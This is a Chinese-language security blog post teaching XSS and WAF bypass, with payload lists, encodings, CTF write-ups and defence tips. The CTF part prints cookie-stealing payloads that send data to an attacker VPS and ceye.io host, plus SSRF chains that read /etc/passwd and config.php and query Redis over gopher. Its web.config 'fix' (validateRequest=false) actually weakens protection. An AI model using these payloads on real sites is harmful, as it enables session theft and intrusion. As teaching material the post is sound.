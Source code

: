 ```yaml
---
layout:     post
title:      BypassWaf_xss
date:       2018-12-30
author:     Wh0ale
header-img: img/jade_by_wlop-d9n5wvp.jpg
catalog: true
tags:
    - xss
---
```


![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyp4d6xll2j20ye0dy403.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fys1velc7qj210y0w6acr.jpg)

# 0x01 什么是XSS漏洞

XSS全称跨站脚本(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故缩写为XSS，比较合适的方式应该叫做跨站脚本攻击。

跨站脚本攻击是一种常见的web安全漏洞，它主要是指攻击者可以在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。

## 一、 XSS分类

> 反射型（非持久型）
> 存储型（持久型）
> DOM型
> 不常见的XSS:
> mXSS 突变型XSS
> UXSS 通用型XSS
> Flash XSS
> UTF-7 XSS
> MHTML XSS
> CSS XSS
> VBScript XSS

**存储型**

存储型XSS也叫持久型XSS，存储的意思就是Payload是有经过存储的，当一个页面存在存储型XSS的时候，XSS注入成功后，那么每次访问该页面都将触发XSS。

**反射型**

反射型XSS也叫非持久型XSS，最常见的是Payload是构造在网址的某个GET参数的值里。

**DOM 型**

基于DOM的XSS有时也称为type0XSS。当用户能够通过交互修改浏览器页面中的DOM(DocumentObjectModel)并显示在浏览器上时，就有可能产生这种漏洞，从效果上来说它也是反射型XSS。通过修改页面的DOM节点形成的XSS，称之为DOMBasedXSS。

## 二、 xss bypass

### 检测过滤情况

用于有字符限制的短探测器
 `'';!--"<XSS>=&{()}`
 完全版探测器
 `';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`

### 观察输出位置

#### 1.标签之间

```
模型： <div>[xss]</div> payload： <script>alert(1)</script>或者<img src=1 onerror=alert(1)>
这些标签有：
<a> <p> <img> <body> <button> <var> <div> <object> <input> <select> <keygen> <frameset>  <embed> <svg> <video> <audio>
       
自带HtmlEncode（转义）功能的标签(RCDATA)，这是插入的javascript不会被执行，除非我们闭合掉它们。
<textarea></textarea> <title></title> <iframe></iframe> <noscript></noscript> <noframes></noframes> <xmp></xmp> <plaintext></plaintext> 其他：<math></math>也不行
```

#### 2.js标签之间

在该位置，空格被过滤，可用/**/代替空格。输出在注释中，通过换行符%0a %0d使其逃逸出来。

##### (1)不在字符串内

判断<>/是否被过滤。如果没有，那么直接插入就可以。

```JavaScript
<script>
[output]
</script>
payload：</script><script>alert(1)</script>
```

##### (2)在字符串中

此时需要闭合字符串，并保证插入的JS代码符合语法规范。

```
<script>
Var x="Input";
</script>
```

 input是输出点，我们首先要闭合双引号，才能保证XSS成功。如果我们无法闭合包括字符串的引号（引号被转义），就很难利用，除非存在两个输出点或宽字节。(详见参考资料)

#### 3.输出在HTML属性内

##### (1)文本属性中

例如：`<input value="输出"> 、 <img onload="...[输出]..."> ，再比如 <body style="...[输出]...">`

**无引号包裹，直接添加新的事件属性。**

**有引号包括。首先测试引号是否可用，可用则闭合属性之后添加新的事件属性。**

> HTML的属性，如果被进行HTML实体编码(形如'&#x27)，那么HTML会对其进行自动解码，从而我们可以在属性里以HTML实体编码的方式引入任意字符，从而方便我们在事件属性里以JS的方式构造payload。当然，也可以闭合属性后，然后再执行脚本。

##### (2)src/href/action/xlink:href/autofocus/content/data 等属性

直接使用伪协议绕过。

```
javascript 伪协议： <a href=javascript:alert(2)>test</a>
data 协议执行 javascript： <a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>test</a>(Chrome被拦截，Firefox可以)
urlencode 版本： <a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>(测试未通过)
不使用 href 的另外一种组合来执行 js： <svg><a xlink:href="javascript:alert(14)"><rect width="1000" height="1000" fill="white"/></a></svg>（均可） 或者： 
<math><a xlink:href=javascript:alert(1)>1</a></math>(Chrome不可，Firefox可以)
```

##### (3)on*事件中

 插入合乎逻辑的JS代码即可。也可以使用伪协议。

```JavaScript
onload 
onclick
onunload 
onchange 
onsubmit 
onreset 
onselect 
onblur 
onfocus 
onabort 
onkeydown 
onkeypress 
onkeyup 
ondbclick 
onmouseover 
onmousemove 
onmouseout 
onmouseup 
onforminput 
onformchange 
ondrag 
ondrop
```

### 绕过waf

**单次过滤规则绕过：**`<scr<script>ipt>`
**大小写绕过：**<sCript>
**alert绕过：**可以尝试prompt和confirm
**没有斜杠：**`<IMG SRC=javascript:alert('XSS')>`
**空格被过滤：**`<img/src=""onerror=alert(2)>` `<svg/onload=alert(2)></svg>`
**长度限制时：**
 (1)`<q/oncut=alert(1)>`
 (2)

```
<script>z=’document.’</script> <script>z=z+’write(“‘</script> <script>z=z+’<script’</script> <script>z=z+’ src=ht’</script> <script>z=z+’tp://ww’</script>
<script>z=z+’w.shell’</script> <script>z=z+’.net/1.’</script> <script>z=z+’js></sc’</script>
<script>z=z+’ript>”)’</script> <script>eval_r(z)</script>
```

单引号及双引号被过滤情况：`<script>alert(/jdq/)</script> //用双引号会把引号内的内容单独作为内容 用斜杠，则会连斜杠一起回显`
 **javascript伪协议：**

```JavaScript
<a href="javascript:alert(/test/)">xss</a>
<iframe src=javascript:alert('xss');height=0 width=0 /><iframe>利用iframe框架标签
```

**畸形payload：**

``` 
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
```

**括号被过滤,可以使用throw来抛出数据**

```JavaScript
<a onmouseover="javascript:window.onerror=alert;throw 1">2</a>
<img src=x onerror="javascript:window.onerror=alert;throw 1">
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';>
```

**当=();:被过滤时：**

过滤某些关键字（如：javascript） 可以在属性中的引号内容中使用空字符、空格、TAB换行、注释、特殊的函数，将代码行隔开。比如在使用<iframe src="javascript:alert(1253)" height=0 width=0 /><iframe>时，可以用回车、Tab键将src中的内容隔开，回车的url编码为%0a,%0b;

 **拼凑法：**① 双写绕过；② 使用js定义变量z=scri, z+pt=script; ③ 两处输出点

```
<scri<!-- 第二处-->pt>;
```

无法使用href：

```JavaScript
<a onmouseover="alert(document.cookie)">xxs link</a>
在chrome下，其回补全缺失的引号。因此，也可以这样写：
<a onmouseover=alert(document.cookie)>xxs link</a>
```

### 编码

JS函数（如eval，settimeout）还有就是`href= action= formaction= location= on*= name= background= poster= src= code=`这些地方，可以配合编码。此外，data属性可以base64编码。
 1.js16进制

```JavaScript
<script>eval(“js+16进制加密”)</script> <script>eval("\x61\x6c\x65\x72\x74\x28\x22\x78\x73\x73\x22\x29")</script> 编码要执行的语句↓
Alert(“xss”)
```

2.js unicode

```JavaScript
<script>eval("unicode加密")</script> //js unicode加密 解决alert()被过滤
<script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029")</script>
```

3.String.fromCharCode函数（不需要任何引号，必须函数内）

```JavaScript
<script>eval(String.fromCharCode编码内容))</script> <script>eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,13))</script>
```

4.jsfuck版本

```JavaScript
<script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script>
```

>　　这是一个黑客奇葩的想法。
>
>　　在黑客行为中，你的js代码可能被关键词检测，于是考虑躲避关键词检测的想法，例如 eval等关键词。
>
>　　1、想了各种方法来规避这个检测。
>
>　　2、把方法写成通用的程序。
>
>　　3、把包含的字符做到极致，最后只剩下 ()+[]!  这六个字符。
>
> 这段代码来着于这个网站转码得到：<http://www.jsfuck.com/>   
>
>这里是它的百科，感兴趣可以去了解下：<https://en.wikipedia.org/wiki/JSFuck>
>
>1、脚本注入时防止过滤
>
>2、一定程度加密关键代码（生成代码很长，不适合加密大量代码。只能一定程度上加密，不能依赖）
>
>3、装逼用（我最中意的用途）
>
>结论：转换后本质依然是javascript，通过javascript的一些性质来生成，具体实现可以看这里的代码<https://github.com/aemkei/jsfuck>

5.HTML编码

```
<img src='1' onerror='aler&#x0074;(1)'>
```

6.base64编码（仅data支持）

```
     <object data="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovL3QuY24vUnE5bjZ6dT48L3NjcmlwdD4="></object>
     格式：
     Data:<mime type>,<encoded data>
     Data //协议
     <mime type> //数据类型
     charset=<charset>  //指定编码
     [;base64] //被指定的编码
     <encoded data> //定义data协议的编码
     特点：不支持IE
```



# 0x02 非基于Web的XSS注射

**PowerDNS Recursor** 

在我们的演讲中，Chris提到他在一个流行的DNS软件中发现了一个不常见的XSS，所以我决定从它开始强调网络并不总是唯一的攻击媒介。

PowerDNS Recursor是一款高端，高性能的解析名称服务器，可为至少1亿用户的DNS解析提供支持。Recursor是两个名称服务器产品之一，其主要目标是充当解析DNS服务器。


一个[详细的演练](https://blog.fortinet.com/2017/12/02/powerdns-recursor-html-script-injection-vulnerability-a-walkthrough)解释它是如何可能通过使用命令行工具挖一个DNS查询来注入XSS有效载荷：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/dig.png)



而这又在Web UI中呈现：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/powerdns.png)



**Symantec SSL Toolbox**这是我在三年前在Symantec的SSL证书测试程序中找到并报告的已修复漏洞。此[免费在线服务](https://cryptoreport.websecurity.symantec.com/checker/)用于从给定URL的x509 SSL证书中提取和显示值，信任其内容，而无需清理字段中的数据。


因此，我在不同的字段中创建了一个值为“<script> alert（document.cookie）; </ script>”的SSL证书，并将其安装在Web服务器的前面：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/symantec.png)



分析此类证书的结果是正在执行的JavaScript代码：

![ximg](https://www.websec.ca/img/three-non-web-based-xss-injections/symantec-xss.png)



**RATS（安全性粗略审计工具）**由CERN计算机安全部门开发，[RATS](https://security.web.cern.ch/security/recommendations/en/codetools/rats.shtml)是一个非常好的静态代码分析工具。我喜欢它并且已经使用它多年了。然而，最后一个版本可以追溯到2013年12月，现在可能没有维护，但不确定。


去年我在火车上很无聊，发现这个无用的XSS。RATS收到一个包含源代码的文件夹，并创建一个包含结果的HTML报告，其中还包括所分析文件的名称，因此攻击向量非常明显。我在其名称中创建了一个包含JavaScript代码的文件：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/rats.png)



分析之后，注入的JavaScript将在报告中呈现：

![img](https://www.websec.ca/img/three-non-web-based-xss-injections/rats-xss.png)



# 0x03 CTF赛题

[XSS的威力：从XSS到SSRF再到Redis](https://www.anquanke.com/post/id/156377)

## **一、xssme**

payload：

```
<svg/onload="document.location='http://vps_ip:23333'">
```

vps：

```
nc -l -vv -p 23333
```

收获flag

```
<svg/onload="document.location='http://ugelgr.ceye.io/?'+document.cookie">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypr96reo5j20jc07ojst.jpg)

解码后得到

```
PHPSESSID=9crkuhdqs9b1jkslebpieprr86; FLAG_XSSME=FLAG{Sometimes, XSS can be critical vulnerability <script>alert
```



## **二、xssrf leak**

xss去本地访问，再将页面内容打出来

```JavaScript
<svg/onload="document.location='http://ugelgr.ceye.io/?'+btoa(document.body.innerHTML)">
```

**编码绕过**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypreygzbrj20lz0a1dmd.jpg)

**解码后保存到本地html里打开**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprfv1be7j20re0lcmyx.jpg)

发现多了一个send request的功能，跟过去看代码发现多了一个send request的功能，跟过去看代码
[![img](https://p5.ssl.qhimg.com/t016761eb473b221e42.png)](https://p5.ssl.qhimg.com/t016761eb473b221e42.png)

没错，是多了一个request.php
那么结合题目意思，应该是有ssrf，我想应该就是利用这里的request.php了吧
那么继续去读这个页面的html

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("GET","request.php",true);
xmlhttp.send();
">
```



经过编码后发送，得到
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprjod9cbj21e6076n0h.jpg)同样解码后发现代码
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprkntdnjj21900h2jsr.jpg)应该xss的点就是在这里了
于是尝试file协议读`/etc/passwd`

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///etc/passwd");
">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprlccny8j2178182k0b.jpg)发现成功读取了`/etc/passwd`
那么我们回想到最初的文件

```
User-agent: *
Disallow: /config.php
Disallow: /you/cant/read/config.php/can/you?
Disallow: /backup.zip
```

于是直接读config.php

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=file:///var/www/html/config.php");
">
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprly0fcwj21b012en16.jpg)cool，于是我们拿到了第二个flag

```
FLAG{curl -v -o flag --next flag://in-the.redis/the?port=25566&good=luck}
```

## **三、xssrf redis**

只剩下最后一步打redis了

这里很容易就想到了gopher未授权访问打redis
上一题提示我们redis再25566端口，于是我们尝试访问一下

```html
<svg/onload="
xmlhttp=new XMLHttpRequest();
xmlhttp.onreadystatechange=function()
{
    if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        document.location='http://vps_ip:23333/?'+btoa(xmlhttp.responseText);
    }
}
xmlhttp.open("POST","request.php",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("url=gopher://127.0.0.1:25566/_info%250a_quit");
">
```

于是愉快的打出信息，发现果然是未授权访问
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fypro47h7hj20w211o0vi.jpg)那么看看key有哪些

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_KEYS%2520*%250a_quit");
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprovnhvtj20nq0vm75o.jpg)发现了flag
然后我们尝试读取

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_get%2520flag%250a_quit");
```

发现报错
![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprpnzlqij21020eaab5.jpg)发现类型错误了
那我们看看类型

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_type%2520flag%250a_quit");
```

[![img](https://p3.ssl.qhimg.com/t01c56b570a1f671daa.png)](https://p3.ssl.qhimg.com/t01c56b570a1f671daa.png)

发现是个list
那我们看看长度

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_llen%2520flag%250a_quit");
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyprrfqsanj20qg0kut9v.jpg)发现是53
那我们可以愉快的读取list了

```
xmlhttp.send("url=gopher://127.0.0.1:25566/_lrange%2520flag%25200%252053%250a_quit");
```

[![img](https://p0.ssl.qhimg.com/t016b256ff57a040832.png)](https://p0.ssl.qhimg.com/t016b256ff57a040832.png)

我们把它拼接起来

[![img](https://p2.ssl.qhimg.com/t01584c35dc674b052a.png)](https://p2.ssl.qhimg.com/t01584c35dc674b052a.png)so cool
得到最后的flag

```
FLAG{Rediswithout authentication is easy to exploit}
```



# 0x04 B站waf

xss探针

```javascript
';`"><aaa bbb=ccc>ddd<aaa/>
aaa</script>bbb<script>ccc
```

payload

```javascript
<img src=x onerror=alert(1)>
<script>alert(1)<script>
top['alert'](1)
top['al'+'ert'](1)
```

至今已发现的b站waf规则总结：

```javascript
on\w+=(?:prompt|alert|confirm){1}\(\w+\)

<[^>]*\s+on\w+=(?:prompt|alert|confirm){1}\(\w+  

<script>[^`]*document\[\w+\]

<script>[^`]*document\.\w+

<script>\w+\.cookie

<script\s(.*\s)?src(=\w+)?>

<a\s(.*\s)?href=javascript:.*>

<img\s[^>]*on\w+=\w+\[\w*\]\(\w*\)

<img\s[^>]*on\w+=`\w*`.*
```



# 0x05 实战

## 一、pdf xss

在新建文档中添加页面属性

在动作标签运行JavaScript命令`app.alert(‘XSS’);`

然后保存为PDF文件

打开pdf文件，JavaScript代码执行

尝试把 PDF 文件嵌入到网页中并试运行。创建一个 HTML 文档，代码如下：

```html
<html>
<body>
<object
data="test.pdf" width="100%" heigh="100%"
type="application/pdf"></object>
</body>
</html>
```

除了把 JavaScript 嵌入 PDF 文件中执行，还可以利用基于 DOM 的方法执行 PDF XSS。

**修复方法**

　　而作为网站管理员或开发者，可以选择强迫浏览器下载 PDF 文件，而不是提供在线浏览等，或修改 Web 服务器配置的 header 和相关属性。

　　可以使用第三方插件解析pdf，不用chrome自带的pdf解析就行，https://github.com/adobe-type-tools/cmap-resources

参考链接：

[https://www.t00ls.net/thread-48480-1-1.html](https://www.t00ls.net/thread-48480-1-1.html)

[https://blog.xss.lc/experience-sharing/71.html](https://blog.xss.lc/experience-sharing/71.html)



## 二、上传文件处XSS

在上传的图片内容中插入xss攻击的payload，之后访问返回的name文件，可触发xss代码。

修改页面内容为payload

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz2f87r87wj20l607o0vf.jpg)

访问图片url触发xss

**安全建议**：

(1) 判断参数的合法性，不合法不返回任何内容。

(2) 对用户输入进行html实体编码，并过滤常见html标签及javascript脚本。



**文件上传处文件名XSS**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz2fcazc3bj20qy0ezwiv.jpg)

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz2fe0qt0gj20r00d6djd.jpg)

**安全建议：**

(1) 判断参数的合法性，不合法不返回任何内容。

(2) 严格限制URL参数输入值的格式，不能包含不必要的特殊字符（%0d、%0a、%0D、%0A等）。

(3) 针对Cookie设置HttpOnly策略。

(4) 针对ASP.NET的防XSS库，Microsoft有提供统一的库，具体可以参见如下链接微软官网：

修改web.config文件:

```
<configuration>

    <system.web>

        <pages validateRequest="false" />

    </system.web>

</configuration>
```

[http://msdn.microsoft.com/en-us/library/aa973813.aspx](http://msdn.microsoft.com/en-us/library/aa973813.aspx)



## 三、excel模版xss

从本地导入excel表格，表格内数据含xss payload 即可触发XSS漏洞

payload：

```javascript
<img src=x onerror=alert(1)>
<img/src=""onerror=alert(2)>
<src=x onerror=alert(1)>
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fz2flkrd5pj20hm0b9ace.jpg)







# 0x06 防御

1、HTML实体化编码，预防xss漏洞。

2、对特殊字符，例如’ “ >< % 等进行过滤。

3、传递参数时对cookies进行校验，防止越权漏洞。

4、开启CSP或HTTPONLY，防止用户凭证泄露。

# 0x07 补充CSP

<https://www.jianshu.com/p/f1de775bc43e>

<https://xz.aliyun.com/t/4074#toc-8>




























